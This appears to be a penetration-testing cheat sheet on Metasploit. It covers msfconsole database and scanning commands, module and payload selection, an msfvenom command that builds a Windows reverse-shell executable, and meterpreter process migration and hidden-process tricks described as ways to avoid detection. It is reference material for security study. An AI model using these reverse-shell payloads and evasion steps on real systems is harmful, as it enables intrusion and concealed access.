 ```yaml
---
title: "Metasploit"
weight: 4
description: ""
---
```


# Metasploit

## Metasploit

```sh
# Start the database service & create and initialize the MSF database
msfdb init

# Enable the database service
sudo systemctl enable postgresql

# Verify database connectivity
db_status

# Create workspace
workspace -a target1

# Scan with nmap
db_nmap -A <TARGET1>

# List of all discovered hosts up
hosts

# Display discovered services
services
services -p 5000 # specific port

# Search all SMB auxiliary modules
search type:auxiliary smb
search apache

# Activate a module
use 5

# Get information about the currently activated module
info

# Display the options of a module
show options

# Get a list of all payloads that are compatible with the currently selected module
show payloads

# set & unset an option
set <OPTION> <VALUE>
unset <OPTION>

# Set a payload
set payload payload/linux/x64/shell_reverse_tcp

# Launch a module
run

# Show vulnerabilities that Metasploit automatically detected based on the results of the executed module
vulns

# Show valid credentials we gathered
creds

# Background session
CTRL + Z

# List all active sessions
sessions -l

# Interact with a session
sessions -i 2
```
---

## msfvenom
```sh
# List payloads
msfvenom -l payloads --platform windows --arch x64

# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f exe -o file.exe
```

{{< hint style=notes >}}
To handle a staged payload don't use netcat. Use Metasploit’s `multi/handler` instead.
{{< /hint >}}

---

## Migrate (meterpreter)

Reason to migrate:
When a host is compromised, the Meterpreter payload runs inside the process used for exploitation. 
* **Stability**: If that process is closed, your access is lost
* **Avoid detection**: The process name may also appear suspicious to defenders
* **Compatibility**: The payload may be 64-bit, but the session is on an 86-bit OS

To avoid this, we can use `migrate` to move the payload to a more stable or inconspicuous process.

{{< hint style=notes >}}
Migration is only allowed to processes with the same or lower integrity and privilege level.
{{< /hint >}}

```sh
# Show list process
meterpreter > ps

# Migrate
meterpreter > migrate 8052
```

If no suitable process is available for migration, we can use the execute command to create a new process and run the Meterpreter payload within it by specifying a desired command or program.

```sh
# Create a hidden process
meterpreter > execute -H -f notepad

# Migrate
meterpreter > migrate 8052
```


